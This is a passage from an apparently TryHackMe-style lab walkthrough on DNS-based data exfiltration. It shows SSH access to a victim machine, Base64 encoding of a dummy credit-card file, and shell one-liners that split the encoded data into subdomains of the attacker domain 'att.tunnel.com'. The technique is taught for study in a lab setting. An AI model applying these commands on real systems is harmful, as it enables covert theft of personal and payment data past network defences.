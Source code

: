 Or from the AttackBox machine using theÂ 10.10.39.16Â and portÂ 2122Â as follows,

Connect to Victim 2 viaSSHClient from AttackBox  

```markup
root@AttackBox$ ssh thm@10.10.39.16 -p 2122
```

On theÂ victim2Â machine, there is aÂ task9/credit.txtÂ file with dummy data.  

Checking the content of the creds.txt file  

```markup
thm@victim2$ cat task9/credit.txt
Name: THM-user
Address: 1234 Internet, THM
Credit Card: 1234-1234-1234-1234
Expire: 05/05/2022
Code: 1337
```

In order to send the content of a file, we need to convert it into a string representation which could be done using any encoding representation such as Base64, Hex, Binary, etc. In our case,Â we encode the file using Base64 as follows,  

Encoding the Content of the credit.txt File  

```markup
thm@victim2$ cat task9/credit.txt | base64
TmFtZTogVEhNLXVzZXIKQWRkcmVzczogMTIzNCBJbnRlcm5ldCwgVEhNCkNyZWRpdCBDYXJkOiAx
MjM0LTEyMzQtMTIzNC0xMjM0CkV4cGlyZTogMDUvMDUvMjAyMgpDb2RlOiAxMzM3Cg==
```

Now that we have the Base64 representation, we need to split it into one or multipleÂ DNSÂ requests depending on the output's length (DNSÂ limitations) and attach it as a subdomain name. Let's show both ways starting with splitting for multipleÂ DNSÂ requests.

Splitting the content into multipleDNSrequests  

```markup
thm@victim2:~$ cat task9/credit.txt | base64 | tr -d "\n"| fold -w18 | sed -r 's/.*/&.att.tunnel.com/' 
TmFtZTogVEhNLXVzZX.att.tunnel.com
IKQWRkcmVzczogMTIz.att.tunnel.com
NCBJbnRlcm5ldCwgVE.att.tunnel.com
hNCkNyZWRpdCBDYXJk.att.tunnel.com
OiAxMjM0LTEyMzQtMT.att.tunnel.com
IzNC0xMjM0CkV4cGly.att.tunnel.com
ZTogMDUvMDUvMjAyMg.att.tunnel.com
pDb2RlOiAxMzM3Cg==.att.tunnel.com
```

In the previous command, we read the file's content and encoded it using Base64. Then, we cleaned the string by removing the new lines and gathered every 18 characters as a group. Finally, we appended the name server "att.tunnel.com" for every group.Â 

Let's check the other way where we send a singleÂ DNSÂ request, which we will be using for our data exfiltration. This time,Â we split every 18 characters with a dot "." and add the name server similar to what we did in the previous command.
